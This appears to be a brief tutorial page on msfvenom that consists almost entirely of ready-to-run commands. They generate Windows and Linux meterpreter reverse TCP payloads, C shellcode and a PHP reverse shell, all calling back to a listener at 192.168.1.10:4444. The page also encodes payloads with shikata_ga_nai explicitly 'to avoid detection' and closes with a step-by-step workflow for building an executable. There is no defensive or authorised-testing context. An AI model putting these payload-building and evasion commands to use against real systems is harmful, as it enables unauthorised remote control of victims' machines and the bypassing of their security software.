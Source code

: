 The basic syntax for using `msfvenom` is:

```plaintext
msfvenom -p PAYLOAD OPTIONS -e ENCODER -f FORMAT -o OUTPUT_FILE
```

#### Examples

1. **Generating a Reverse TCP Shell:**

   Generate a Windows reverse TCP shell payload:

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe
   ```

2. **Encoding a Payload:**

   Encode the payload with the `shikata_ga_nai` encoder:

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
   ```

3. **Generating Shellcode:**

   Generate shellcode for a Linux payload:

   ```plaintext
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c -o shellcode.c
   ```

4. **Creating a PHP Payload:**

   Create a PHP reverse shell payload:

   ```plaintext
   msfvenom -p php/reverse_php LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
   ```

#### Practical Workflow

1. **Select Payload:**
   Choose the appropriate payload for your target system and scenario.

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444
   ```

2. **Choose Encoder (if needed):**
   Encode the payload to avoid detection.

   ```plaintext
   -e x86/shikata_ga_nai -i 5
   ```

3. **Specify Output Format:**
   Define the format for the payload.

   ```plaintext
   -f exe -o shell.exe
   ```
